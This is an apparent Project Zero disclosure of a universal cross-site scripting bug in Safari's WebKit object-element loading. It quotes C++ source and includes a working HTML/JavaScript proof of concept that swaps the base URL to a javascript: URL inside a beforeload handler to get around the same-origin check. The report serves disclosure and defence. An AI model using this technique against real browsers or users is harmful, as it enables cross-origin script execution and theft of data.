 # UXSS through HTMLObjectElement::updateWidget

## Reported by <mailto:lokihardt@google.com>, Feb 9 2017

When an object element loads a JavaScript URL(e.g., `javascript:alert(1)`), it checks whether it violate the Same Origin Policy or not.

Here's some snippets of the logic.

```cpp
void HTMLObjectElement::updateWidget(CreatePlugins createPlugins)
{
    ...
    String url = this->url();
    ...
    if (!allowedToLoadFrameURL(url))
        return;
    ...

    bool beforeLoadAllowedLoad = guardedDispatchBeforeLoadEvent(url);
    ...

    bool success = beforeLoadAllowedLoad && hasValidClassId();
    if (success)
        success = requestObject(url, serviceType, paramNames, paramValues);
    ...
}

bool HTMLPlugInImageElement::allowedToLoadFrameURL(const String& url)
{
    URL completeURL = document().completeURL(url);
    if (contentFrame() && protocolIsJavaScript(completeURL) && !document().securityOrigin().canAccess(contentDocument()->securityOrigin()))
        return false;
    return document().frame()->isURLAllowed(completeURL);
}

bool HTMLPlugInElement::requestObject(const String& url, const String& mimeType, const Vector<String>& paramNames, const Vector<String>& paramValues)
{
    if (m_pluginReplacement)
        return true;

    URL completedURL;
    if (!url.isEmpty())
        completedURL = document().completeURL(url);

    ReplacementPlugin* replacement = pluginReplacementForType(completedURL, mimeType);
    if (!replacement || !replacement->isEnabledBySettings(document().settings()))
        return false;

    LOG(Plugins, "%p - Found plug-in replacement for %s.", this, completedURL.string().utf8().data());

    m_pluginReplacement = replacement->create(*this, paramNames, paramValues);
    setDisplayState(PreparingPluginReplacement);
    return true;
}
```

The SOP violation check is made in the method `HTMLPlugInImageElement::allowedToLoadFrameURL`.

What I noticed is that there are two uses of `document().completeURL` for the same URL, and the method `guardedDispatchBeforeLoadEvent` dispatches a `beforeloadevent` that may execute JavaScript code after the SOP violation check. So if the base URL is changed like `javascript:///%0aalert(location);//` in the event handler, a navigation to the JavaScript URL will be made successfully.

Tested on Safari 10.0.3(12602.4.8).

PoC:

```html
<html>

<head>
</head>

<body>
  <script>
    let o = document.body.appendChild(document.createElement('object'));
    o.onload = () => {
      o.onload = null;

      o.onbeforeload = () => {
        o.onbeforeload = null;

        let b = document.head.appendChild(document.createElement('base'));
        b.href = 'javascript:///%0aalert(location);//';
      };
      o.data = 'xxxxx';
    };

    o.type = 'text/html';
    o.data = 'https://abc.xyz/';
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1120
